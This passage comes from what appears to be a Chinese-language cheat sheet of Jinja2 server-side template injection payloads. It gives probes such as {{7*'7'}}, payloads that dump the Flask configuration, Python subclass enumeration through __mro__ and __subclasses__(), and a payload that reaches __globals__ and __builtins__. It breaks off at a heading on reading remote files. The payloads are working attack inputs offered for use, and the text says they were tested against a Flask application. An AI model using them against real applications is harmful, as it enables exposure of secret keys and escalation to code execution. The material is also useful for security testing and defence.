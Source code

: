 ```python
{{4*4}}[[5*5]]
{{7*'7'}}  # 结果为7777777
{{config.items()}}
```

Jinja2被Python Web框架如Django或Flask使用。
上述注入已在Flask应用程序上测试过。

### Jinja2 - 模板格式

```python
{% extends "layout.html" %}
{% block body %}
  <ul>
  {% for user in users %}
    <li><a href="{{ user.url }}">{{ user.username }}</a></li>
  {% endfor %}
  </ul>
{% endblock %}
```

### Jinja2 - 调试语句

如果启用了调试扩展，将可以使用`{% debug %}`标签来转储当前上下文以及可用的过滤器和测试。这对于查看模板中可用的内容而无需设置调试器非常有用。

```python
<pre>{% debug %}</pre>
```

来源: [jinja.palletsprojects.com](https://jinja.palletsprojects.com/en/2.11.x/templates/#debug-statement)

### Jinja2 - 转储所有使用的类

```python
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

访问`__globals__`和`__builtins__`:

```python
{{ self.__init__.__globals__.__builtins__ }}
```

### Jinja2 - 转储所有配置变量

```python
{% for key, value in config.iteritems() %}
    <dt>{{ key|e }}</dt>
    <dd>{{ value|e }}</dd>
{% endfor %}
```

### Jinja2 - 读取远程文件

